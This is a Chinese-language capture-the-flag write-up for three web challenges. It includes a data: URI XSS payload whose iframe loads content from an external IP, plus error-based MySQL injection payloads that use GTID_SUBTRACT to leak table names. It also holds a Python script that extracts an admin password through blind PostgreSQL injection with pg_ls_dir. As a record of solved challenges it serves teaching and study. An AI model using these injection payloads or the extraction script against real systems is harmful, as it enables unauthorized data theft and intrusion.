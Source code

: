 添加header: `TIM截图20181129223840.png`

解决方法2:

在提交url截屏的时候有个host的过滤，不过可以用data协议进行绕过，使得host为空串，includes为真，并且可以直接插入标签进行XSS，payload如下：

```
data:text/html,<iframe style='position:absolute;left:0;top:-1500px;background:white;' width=100% height=10000 src=http://47.95.221.26:23333/5E192BCA-1C3F-4CE8-933C-D8B880D72EAD.txt></iframe>
```

 最终得到flag:

![](/assets/bctf/TIM截图20181129223424.png)

## babysqlA

```
export function checkHint (hint) {
  return ! / |;|\+|-|\*|\/|<|>|~|!|\d|%|\x09|\x0a|\x0b|\x0c|\x0d|`|gtid_subset|hash|json|st\_|updatexml|extractvalue|floor|rand|exp|json_keys|uuid_to_bin|bin_to_uuid|union|like|sleep|benchmark/ig.test(hint)
}
```

网站使用webpak打包，所以会有`.map`文件。

可以看到两个函数:

![](/assets/bctf/20181130080726-eb7ce608-f433-1.png)

![](/assets/bctf/20181130080726-eb9fe392-f433-1.png)

`searchHints`中用到的`captcha`就是从`getCaptcha`中得到的，于是:

![](/assets/bctf/20181130080727-ebd4249a-f433-1.png)

payload: `captcha=xxxxxxxx&hint='||GTID_SUBTRACT(((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database()))),'a')#`

可以看到表明乱码，并且很长，并且由于`GTID_SUBSTRACT`报错有长度限制，所以，flag可能放在后边，没显示出来，引入`REVERSE`函数。

payload: `captcha=xxxxxxxx&hint='||GTID_SUBTRACT((REVERSE((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())))),'a')#`

得到flag表明: `vhEFfFlLlLaAAaaggIiIIsSSHeReEE`

## babyweb

search的时候有个sort参数，但是发现sort=current_database()的时候结果正常，然后sort=abc()的时候404，猜测是Postgresql，进一步使用其它函数进行测试，发现sort=pg_ls_dir('/proc')的时候会返回很多结果，sort=pg_ls_dir('/proca')这样就404了，因此可以配合concat和substring进行盲注，例如sort=pg_ls_dir(concat('/proc',substring('a',1,ascii(substring('a',1,1))-97)))这样会返回结果，但是97换成别的就会404，注出密码的payload如下：

```
import requests

dic = list("abcdefghijklmnopqrstuvwxyz0123456789_!;~.")
ans = ''
for pos in range(1,50):
    for c in dic:
        c = ord(c)
        data = {'search':'admin','sort':"pg_ls_dir(concat('/proc',substring('a',1,ascii(substring(password,%d,1))-%d))),id" % (pos,c)}
        #print(data)
        resp = requests.post("http://47.95.235.14:9999/search",data=data).text
        if len(resp)>10000:
            ans += chr(c)
            print(ans)
```